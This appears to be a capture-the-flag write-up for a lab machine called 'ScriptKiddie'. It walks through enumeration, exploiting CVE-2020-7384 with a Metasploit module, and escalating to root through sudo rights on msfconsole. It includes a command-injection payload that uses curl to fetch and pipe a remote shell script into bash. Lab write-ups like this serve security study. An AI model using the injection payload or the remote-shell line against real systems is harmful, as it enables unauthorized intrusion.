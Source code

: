 
# initial enumeration

nmap result: 
![nmap](./img/script_kiddy/skid_nmap.png)

services:

| service | port | version|
|---------|-------|---------|
| ssh | 22 | 8.2p1 ubuntu|
| werkzeug httpd| 5000 | 0.16.1 (python 3.8.5 ) |

we have an http title:  `k1d'5 h4ck3r t00l5` : "kid's hacker tools"

lets run a dirbust to see what we have for directories while we check out the website:

![dirbust](./img/script_kiddy/skid_dirbuster.png)
dirbust came out empty

## The website:

![webpage](./img/script_kiddy/skid_homepage.png)

this page has some generic hacker stuff, like the nmap scan, searchsploit and the payload generator. 
it seems like it takes the given ip and runs an nmap scan on it. probably sending a filtered ip to the server and executing the nmap command. 

trying to inject code into the fields return an error but the searchsploit result returns something odd:
![searchsploit](./img/script_kiddy/skid_hacking_attempt.png)
hmmmm odd. trying to fuzz it with command injection texts don't work so maybe its a dead end? 
lets try to look at that metasploit template feature. it accepts only android, linux and windows templates. why specifically android though? that's a fairly unique template.

also it's asking for a template file. hmmm

we know we can't inject commands to the searchsploit field and the nmap field.. lets see if the metasploit payload is vulnerable to something because the android field sounds weird. 
the hunch was right, because there's a command injection vulnerability, dubbed [CVE-2020-7384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7384)
lets see if its vulnerable:

# Foothold
 
let's use the `exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`
from the metasploit console and generate a payload, then let's just tell the website to use our template:

![template](./img/script_kiddy/skid_template.png)


# User flag

we got a shell!

![shell](./img/script_kiddy/skid_usershell.png)

user flag was in the `kid` user home directory

# Privesc

i generated an ssh key and logged into the box with it and started running some basic enumeration and found another folder called `pwn` that has a script called `scanlosers.sh`:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi

```

we can inject commands into that script and potentially get a shell as the `pwn` user.

i created a small file with a simple bash reverse shell, wrote a small payload and echoed it into the `hackers` file which gave me shell as pwn:

![pwn](./img/script_kiddy/skid_pwnshell.png)

payload:  `echo "a   ;curl 10.10.17.78:8000/shell.sh | bash; " > hackers `

between the `a` and the `;curl...` there are 3 spaces because the script cuts at the delimiter of space and then skips 3 characters then reaches the shell command

## Root flag
 running the command `sudo -l` shows us we can use the metasploit framework as root:
 
![privesc](./img/script_kiddy/skid_msf_privesc.png)

well since the program is running as root and we can execute commands locally, meaning we can just execute commands as root really simply:

![root](./img/script_kiddy/skid_root_id.png)

as you can see, our current privileges are root. so lets cd into the root directory:

![pwd](./img/script_kiddy/skid_pwd.png)

and read the root flag:

![root flag](./img/script_kiddy/skid_rootflag.png)



# Closing notes
thanks to [0xdf](https://twitter.com/0xdf_?s=20&t=3IbhpW5SS6NnjoPilVSLZA) for the dope and informative box, 
and thank you for reading this post :)